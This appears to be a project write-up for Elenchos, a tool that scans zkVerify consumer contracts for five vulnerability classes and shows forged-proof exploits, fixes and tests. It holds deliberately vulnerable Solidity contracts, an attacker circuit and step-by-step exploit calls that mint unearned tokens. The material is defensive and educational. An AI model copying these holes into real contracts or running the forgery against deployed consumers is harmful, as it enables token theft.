# zkVerify verified both proofs. Your contract had to pick one.

*A valid zero-knowledge proof can still drain your token. Here is exactly how, with real values from a real run, the
five ways a zkVerify consumer gets it wrong, and an AI agent that finds the bug, proves it, fixes it and refuses to
cheat.*

*#AgentGames · built for the zkVerify Agent Games · [@ZKVProtocol](https://x.com/ZKVProtocol) ·
[source](https://github.com/nickthelegend/elenchos) · [1:40 demo](https://github.com/nickthelegend/elenchos/releases/tag/v0.1.0)*


> **TL;DR**
> - zkVerify answers *"is this leaf in aggregation #N?"*. Your contract has to answer *"is this the statement I meant to
>   accept?"*. The leaf is built from four values, and **your contract decides where each one comes from**.
> - If the **verification key** comes from the caller, an attacker writes a circuit that "proves" *mint me 1,000,000*,
>   gets it verified honestly, and your contract pays.
> - We forged exactly that proof (132 ms), got its real zkVerify key hash from a zkVerify node, and asked zkVerify's
>   real verifier on Sepolia about it. zkVerify was not fooled. The consumer is the bug.
> - **Elenchos** is a chat-driven agent that scans for five such holes (E1, E1b, E3, E4, E6), forges the proof that
>   exploits them, writes the fix, and only calls it fixed after Foundry compiles it and the scanner comes back clean,
>   without the agent "fixing" the bug by deleting the feature.

---

## Contents

1. [What a zkVerify receipt actually proves](#1-what-a-zkverify-receipt-actually-proves)
2. [The target: a 30-line claim token](#2-the-target-a-30-line-claim-token)
3. [The attack, step by step, with real numbers](#3-the-attack-step-by-step-with-real-numbers)
4. [The five holes, with an example and a fix for each](#4-the-five-holes-with-an-example-and-a-fix-for-each)
5. [Elenchos: cross-examine, don't just warn](#5-elenchos-cross-examine-dont-just-warn)
6. ["Can't the model just cheat?"](#6-cant-the-model-just-cheat)
7. [Proving the fix holds, not just that it compiles](#7-proving-the-fix-holds-not-just-that-it-compiles)
8. [Shipping it: a safe base contract and CI](#8-shipping-it-a-safe-base-contract-and-ci)
9. [The same lesson, live in the arena](#9-the-same-lesson-live-in-the-arena)
10. [Honest limits](#10-honest-limits)
11. [Try it yourself](#11-try-it-yourself)

---

## 1. What a zkVerify receipt actually proves

zkVerify lets a contract act on a cheap on-chain receipt instead of verifying a SNARK itself. Many proofs are
verified off-chain by zkVerify, hashed into the leaves of a Merkle tree, and the tree's root is posted to a verifier
contract on Ethereum. A consumer contract then asks one question:

```solidity
zkVerify.verifyProofAggregation(domainId, aggregationId, leaf, merklePath, leafCount, index)  // → bool
```

The leaf is a statement hash built from four values:

```
leaf = keccak256( provingSystemId ‖ vkHash ‖ versionHash ‖ keccak256(public inputs) )
         keccak("groth16")  which circuit   sha256("")   each input as a 32-byte little-endian word
```



Read that carefully. zkVerify guarantees that *some* proof, of *some* circuit, with *these* public inputs, was valid
and aggregated. It does **not** know which circuit your contract meant to trust. That is the `vkHash`, and **your
contract supplies it**. The same goes for the domain and the public inputs.

A worked example, all real values from one run of the tools in this repo:

| Value | Where it came from | Value |
|---|---|---|
| Honest claim circuit `vkHash` | zkVerify node, `vk_hash_groth16` RPC | `0x42d82915111b2632eef1b3bf8a251e2a3e7a1ea9553e3b0f4ca4df4c47d19f3c` |
| Attacker circuit `vkHash` | zkVerify node, `vk_hash_groth16` RPC | `0xb8e09b08e9e70332140dcf42851ebc1977aea4aeffd1649156168cdabdd48a2b` |
| Forged public inputs | the attacker's proof | `[659918, 1000000, 1794858469867]` = recipient `0xA11cE`, amount, nullifier |
| Forged leaf | `keccak256(groth16 ‖ 0xb8e0… ‖ sha256("") ‖ keccak(inputs))` | `0x90c6646e78b3336481b7bcca15ed429ec0421eb596668675b4cd5d5ff1db32d1` |
| Latest real aggregation on Sepolia | the verifier's own events | domain `0`, aggregation `#270047`, block `12133598` |
| That aggregation's root | same event | `0xd3e828a12d95aa689e7472d2edf5d8cb2468be4c66d0ecd17aa6b9e3b1cba4db` |

> **How do we know our key hashes are the ones zkVerify uses?** The Agent Games organisers registered two Groth16
> keys on zkVerify mainnet and publish their hashes (`0x6b79…77b0`, `0x6c56…e047`). We send those exact keys to a
> zkVerify node and get both hashes back byte for byte. That check runs in the test suite
> (`packages/forge/test/vkhash.test.ts`), so the leaf above is the leaf zkVerify itself would compute.

---

## 2. The target: a 30-line claim token

`VulnerableMint.sol` is deliberately written the way consumer code tends to look: short, tested, and it works for
honest users.

```solidity
function claim(
    bytes32 vkHash,        // line 25 ← E1: the caller picks the circuit
    uint256 domainId,      // line 26 ← E6: and the aggregation domain
    uint256 aggregationId,
    uint256[] calldata inputs,
    bytes32[] calldata merklePath,
    uint256 leafCount,
    uint256 index
) external {               // line 24 ← E3: nothing below records the leaf
    bytes32 leaf = ZkVerifyStatement.groth16(vkHash, inputs);
    require(
        zkVerify.verifyProofAggregation(domainId, aggregationId, leaf, merklePath, leafCount, index),
        "invalid proof"
    );
    address to = address(uint160(inputs[0]));
    uint256 amount = inputs[1];
    balanceOf[to] += amount;
    totalSupply += amount;
    emit Minted(to, amount);
}
```

The circuit it *means* to trust is a proper claim: you know the secret behind a nullifier, and the amount is at most
1,000.

```circom
template Claim() {
    signal input recipient;  signal input amount;  signal input nullifier;
    signal input secret;                          // private
    component h = Poseidon(1);  h.inputs[0] <== secret;  nullifier === h.out;
    component cap = LessEqThan(32);  cap.in[0] <== amount;  cap.in[1] <== 1000;  cap.out === 1;
    signal recipientSquared <== recipient * recipient;   // bind the recipient into the proof
}
component main {public [recipient, amount, nullifier]} = Claim();
```

---

## 3. The attack, step by step, with real numbers



**Step 1: write a circuit with the same public interface that constrains nothing.**

```circom
template Attacker() {
    signal input recipient;  signal input amount;  signal input nullifier;
    signal t <== recipient * amount;
    signal u <== t * nullifier;
}
component main {public [recipient, amount, nullifier]} = Attacker();
```

**Step 2: prove "mint 1,000,000 to me".** A real Groth16 proof with snarkjs: public signals
`[659918, 1000000, 1794858469867]`, **verified locally in 132 ms**. There's nothing to fake: it is a valid proof. It
just proves nothing that matters.

**Step 3: register the key and submit the proof.** zkVerify hashes the attacker's key to
`0xb8e09b08…bdd48a2b` (we got this from a real zkVerify node), so the leaf it would aggregate is
`0x90c6646e…ff1db32d1`. Submitting the proof (through Kurier) gets that leaf aggregated, because the proof *is* valid.
zkVerify is doing its job. (Our end-to-end run of this step needs a Kurier testnet key; section 7 exercises the same
receipt in a Foundry test.)

**Step 4: call the contract with the attacker's key.**

```solidity
vulnerableMint.claim(0xb8e09b08…bdd48a2b /* the attacker's vkHash */, domainId, aggregationId,
                     [0xA11cE, 1_000_000, nullifier], merklePath, leafCount, index);
// leaf rebuilt from the caller's key == the attacker's aggregated leaf  →  balanceOf[0xA11cE] += 1,000,000
```

**Step 5: why zkVerify is not the problem.** Elenchos asks zkVerify's real verifier on Sepolia
(`0xEA0A0f1EfB1088F4ff0Def03741Cb2C64F89361E`) whether the forged leaf is in its latest real aggregation, #270047:

```json
{ "accepted": false, "verifier": "0xEA0A0f1EfB1088F4ff0Def03741Cb2C64F89361E", "domainId": 0,
  "aggregationId": 270047, "aggregationRoot": "0xd3e828a12d95aa689e7472d2edf5d8cb2468be4c66d0ecd17aa6b9e3b1cba4db",
  "block": 12133598, "leaf": "0x90c6646e78b3336481b7bcca15ed429ec0421eb596668675b4cd5d5ff1db32d1" }
```

zkVerify only says yes to leaves that were really aggregated. The hole is entirely in the consumer's choice to let
the caller pick `vkHash`.

---

## 4. The five holes, with an example and a fix for each

Elenchos's scanner is built on Slither's data-dependency analysis, so it follows where each argument of
`verifyProofAggregation` actually comes from. Every finding names the line the attacker controls.

| Rule | Severity | The consumer… | One-line exploit | Fix |
|---|---|---|---|---|
| **E1** | critical | builds the leaf from a caller-supplied `vkHash` | prove anything with your own circuit | pin `vkHash` as an immutable set at deploy |
| **E1b** | critical | takes the `leaf` itself from the caller | replay *any* leaf anyone ever got aggregated | rebuild the leaf on-chain from the pinned key and the values you act on |
| **E3** | high | checks a receipt but never records it | claim twice with one receipt | store the statement hash and reject it the second time |
| **E4** | critical | moves value in a function that checks no receipt | just call it | gate every value move on a receipt checked in the same call |
| **E6** | medium | takes the aggregation domain from the caller | use a receipt from a domain you control | pin the domain id |

**E1 and E6** are in `VulnerableMint` above; the scanner reports them on lines **25** (`bytes32 vkHash`) and **26**
(`uint256 domainId`).

**E3** is in the same function: nothing records `leaf`, so a single honest receipt mints again and again. The scanner
reports it on line **24**.

**E1b and E4**, in a second example written for this article. The scanner reports both, on lines 13 and 20:

```solidity
contract LeafFromCaller {
    // ...
    function claim(bytes32 leaf, address to, uint256 amount,               // line 13 ← E1b: caller hands over the leaf
                   uint256 aggregationId, bytes32[] calldata path, uint256 count, uint256 index) external {
        require(!used[leaf], "used");
        require(zkVerify.verifyProofAggregation(domainId, aggregationId, leaf, path, count, index), "invalid");
        used[leaf] = true;
        balanceOf[to] += amount;      // `to` and `amount` are never tied to the leaf
    }
    function airdrop(address to, uint256 amount) external {               // line 20 ← E4: no receipt at all
        balanceOf[to] += amount;
    }
}
```

```
[E1b critical] LeafFromCaller.claim(...)    src/Examples.sol:13
[E4  critical] LeafFromCaller.airdrop(...)  src/Examples.sol:20
2 finding(s)
```

Note what E1b looks like: there *is* a replay guard (`used[leaf]`), so E3 is clean. But the caller supplies a leaf
that was aggregated for somebody else's claim, then pays themselves any `amount` they like, because nothing ties
`to`/`amount` to the proven statement.

**The fix for all five** is one pattern: pin what you trust, rebuild the leaf from the values you are about to act
on, and consume it once.

```solidity
abstract contract PinnedZkVerifyConsumer {
    IVerifyProofAggregation public immutable zkVerify;
    bytes32 public immutable vkHash;     // E1: pinned at deploy
    uint256 public immutable domainId;   // E6: pinned at deploy
    mapping(bytes32 => bool) public consumed;

    function _consume(uint256[] memory inputs, uint256 aggregationId, bytes32[] calldata merklePath,
                      uint256 leafCount, uint256 index) internal returns (bytes32 statement) {
        statement = ZkVerifyStatement.groth16(vkHash, inputs);                 // E1b: rebuilt on-chain
        if (consumed[statement]) revert StatementAlreadyUsed(statement);       // E3: once
        if (!zkVerify.verifyProofAggregation(domainId, aggregationId, statement, merklePath, leafCount, index))
            revert InvalidReceipt();
        consumed[statement] = true;
    }
}

contract PinnedMint is PinnedZkVerifyConsumer {
    function claim(address to, uint256 amount, uint256 nullifier, uint256 aggregationId,
                   bytes32[] calldata merklePath, uint256 leafCount, uint256 index) external {
        uint256[] memory inputs = new uint256[](3);
        inputs[0] = uint256(uint160(to));  inputs[1] = amount;  inputs[2] = nullifier;   // the values we act on
        _consume(inputs, aggregationId, merklePath, leafCount, index);                     // E4: receipt first
        balanceOf[to] += amount;  totalSupply += amount;
    }
}
```

---

## 5. Elenchos: cross-examine, don't just warn

*Elenchos* (ἔλεγχος) is Socrates' method: question a claim until it breaks. The agent is a chat. You ask about a
contract and watch Claude drive four real tools, each shown as a card with its raw output. Here is one unedited
investigation, step by step.

**Scan.** Three findings, one critical, each tied to a line. The case file fills in and the source highlights lines
24–26.



**Forge.** A real Groth16 proof from the attacker circuit, verified locally, plus its real zkVerify leaf.



**Replay.** zkVerify's real Sepolia verifier says the forged leaf is not in aggregation #270047. The replay tool takes
**no input**: it can only replay the leaf the forge tool actually produced, so the model has no way to invent one.



**Patch.** The agent writes a full fixed file. Elenchos copies the project to a throwaway folder, runs `forge build`,
and re-runs the scanner. Verdict: *compiles and the scanner is now clean (cleared E1@25, E3@24, E6@26)*.



The evidence stays on screen: the flagged lines in the original source, and the diff of the verified fix.



**It is a conversation, with memory.** Ask *"if someone submits the same real receipt twice against your fix, what
happens?"* and it answers from the exact code it just verified: the second call reverts with `"already claimed"`
before any balance moves. It also flags the limit itself: replay protection is per statement, so it depends on the
circuit binding the nullifier.



**And on the fixed contract,** `PinnedMint.sol`, the scanner finds none of the five holes.



---

## 6. "Can't the model just cheat?"

The cheapest way to make a scanner happy is to delete the code it complains about. So the patch checker runs a
second test, on top of "compiles" and "scanner clean":

```ts
/** Ways a "scanner-clean" patch can be a cheat rather than a fix. */
export function evasions(before: string, after: string): string[] {
  const out: string[] = [];
  const dropped = [...externalFns(before)].filter((f) => !externalFns(after).has(f));
  if (dropped.length) out.push(`removed or renamed public function(s) the scanner keyed on: ${dropped.join(', ')}`);
  if (/verifyProofAggregation/.test(before) && !/verifyProofAggregation/.test(after))
    out.push('the patch no longer verifies any zkVerify receipt — it removed the feature instead of fixing it');
  return out;
}
// verified = compiles && scannerClean && evasions(before, after).length === 0
```

Ask the agent to "make the scanner pass the cheap way" by deleting `claim`. It tries, and the tool answers:

> *the scanner is clean but the patch cheated: removed or renamed public function(s) the scanner keyed on: claim; the
> patch no longer verifies any zkVerify receipt — it removed the feature instead of fixing it*

The verdict turns to **Fix rejected**, and the agent reports it honestly instead of claiming success.



**The model proposes. The compiler and the scanner decide.**

---

## 7. Proving the fix holds, not just that it compiles

A static scanner is a filter, not a proof. So the repo ships a Foundry test that replays the actual attack against
both contracts. Its aggregator is a test fixture that vouches only for leaves someone could really get aggregated:
the attacker can register their *own* circuit's statement, never one built from a key they don't control.

```solidity
// abridged from contracts/test/AttackHolds.t.sol
function test_forgery_mints_on_vulnerable() public {
    VulnerableMint vuln = new VulnerableMint(address(zk));
    uint256[] memory inputs = _inputs(attacker, 1_000_000, 42);
    zk.aggregate(ZkVerifyStatement.groth16(ATTACKER_VK, inputs));   // the attacker's real receipt
    vm.prank(attacker);
    vuln.claim(ATTACKER_VK, DOMAIN, 1, inputs, path, 1, 0);
    assertEq(vuln.balanceOf(attacker), 1_000_000);                   // minted
}

function test_forgery_reverts_on_pinned() public {
    PinnedMint pinned = new PinnedMint(address(zk), PINNED_VK, DOMAIN);
    zk.aggregate(ZkVerifyStatement.groth16(ATTACKER_VK, _inputs(attacker, 1_000_000, 42)));  // same receipt
    vm.prank(attacker);
    vm.expectRevert(PinnedZkVerifyConsumer.InvalidReceipt.selector);
    pinned.claim(attacker, 1_000_000, 42, 1, path, 1, 0);
    assertEq(pinned.balanceOf(attacker), 0);                         // nothing moved
}
```

```
[PASS] test_forgery_mints_on_vulnerable()       (gas: 528142)
[PASS] test_forgery_reverts_on_pinned()         (gas: 564830)
[PASS] test_honest_claim_works_once_on_pinned() (gas: 641293)
[PASS] test_little_endian_word()
[PASS] test_matches_typescript_fixture()        ← the Solidity leaf equals the TypeScript leaf, byte for byte
```

The whole repo runs **40 real tests** (Foundry, snarkjs proofs, a live zkVerify node, the live Sepolia verifier,
Slither). Three more, the forged-receipt exploit on a Sepolia fork, need a Kurier testnet key and are marked as
skipped until one is set. They are never faked.

---

## 8. Shipping it: a safe base contract and CI

**Use the fix, not just the finding.** Inherit `PinnedZkVerifyConsumer` and call `_consume(...)` before you move value.
That one call closes E1, E1b, E3 and E6, and calling it first closes E4.

**Catch it where the bug is written.** The scanner emits SARIF, and a GitHub Action uploads it, so findings show up in
GitHub code scanning on the exact line of a pull request:

```yaml
- uses: actions/checkout@v4
  with: { submodules: recursive }
- uses: foundry-rs/foundry-toolchain@v1
- run: pip install slither-analyzer==0.11.6
- run: python3 detectors/sarif.py contracts --out elenchos.sarif
- uses: github/codeql-action/upload-sarif@v3
  with: { sarif_file: elenchos.sarif, category: elenchos }
```


---

## 9. The same lesson, live in the arena

The Agent Games' own events teach this bug class, and we play them with the same discipline.

**Proof Gatekeeper.** Each task is a payment request with a proof attached. The agent must reject the traps and
approve only real ones, then prove its own decision with the official gatekeeper circuit. Every trap is an
Elenchos-style consumer bug:

| Gatekeeper trap | The consumer bug it tests | Elenchos rule |
|---|---|---|
| `VK_SUBSTITUTION` | the proof's key isn't the registered one | **E1** |
| `PROOF_REUSED` | the same proof reference twice | **E3** |
